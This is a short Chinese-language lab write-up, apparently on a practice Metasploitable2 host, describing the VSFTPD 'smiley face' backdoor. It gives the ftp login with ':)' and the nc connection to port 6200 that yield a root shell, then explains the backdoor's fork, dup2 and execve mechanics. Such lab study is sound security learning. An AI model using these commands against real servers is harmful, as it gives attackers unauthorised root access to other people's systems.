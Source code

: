 # 笑脸漏洞获得root权限
## 漏洞利用过程
ftp 192.168.174.130  
:)  
nc 192.168.174.130 6200
## 验证
<img width="219" height="67" alt="image" src="https://github.com/user-attachments/assets/a80e9869-3abf-434d-9d4a-66fa96b62635" />

## 总结
1.触发  
VSFTPD服务器监听21端口，当一个FTP客户端连接上并发送用户名带有“:)”符号，则跳过正常的认证流程，转到“激活阶段”。  
2.激活  
程序调用隐藏的程序，调用fork()系统创建自己的子进程，具备隐蔽性（主进程VSFTPD服务可运行or退出，而新子进程后台独立运行），此子进程会创建一个新的TCP Socket，并将其绑定在一个硬编码在代码里的端口号：6200，然后开始在端口上监听，等待外部连接。而原本的FTP会话(21端口)因逻辑被中断而卡住或断开。  
3.执行  
nc命令连接到6200端口时，后台子进程的accept()函数被触发，表示连接已建立，接着重定向输入输出，子进程会使用dup2()这个系统调用进行：将标准输入重定向到刚刚建立的网络连接、将标准输出重定向到此网络连接、将标准错误重定向到此网络连接，效果是：对接下来要运行的任何程序，它的“键盘输入”不再来自物理键盘，而是网络；“屏幕输出”也不再显示在屏幕上，而是全部发送到网络。最后子进程调用execve()来执行Shell。（由于VSFTPD服务在Metasploitable2上是以root用户身份启动的，它fork出来的子进程也继承了root权限，因此这里执行的是root Shell）
